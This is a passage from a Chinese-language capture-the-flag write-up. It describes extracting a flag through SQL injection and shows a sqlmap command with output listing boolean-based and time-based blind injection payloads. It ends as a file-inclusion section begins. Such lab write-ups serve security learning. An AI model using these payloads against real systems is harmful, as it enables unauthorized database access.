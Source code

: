 查列，得到flag列

![step4](writeup/step4.png)

查记录，得到flag：

![step5](writeup/step5.png)

## 非预期解

尝试sqlmap

```bash
$ python sqlmap.py -r D:\MEGAsync\mooctest2019exer\new-news.txt  --level 3 --risk 3
sqlmap identified the following injection point(s) with a total of 233 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: word=-2704' OR 5368=5368-- AyLy&number=5

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: word=test' OR SLEEP(5)-- pJuo&number=5
```

# 常规操作（文件包含）
看到`/index.php?url=upload`可以想到url可能存在文件包含/SSRF/URLRedirect问题：
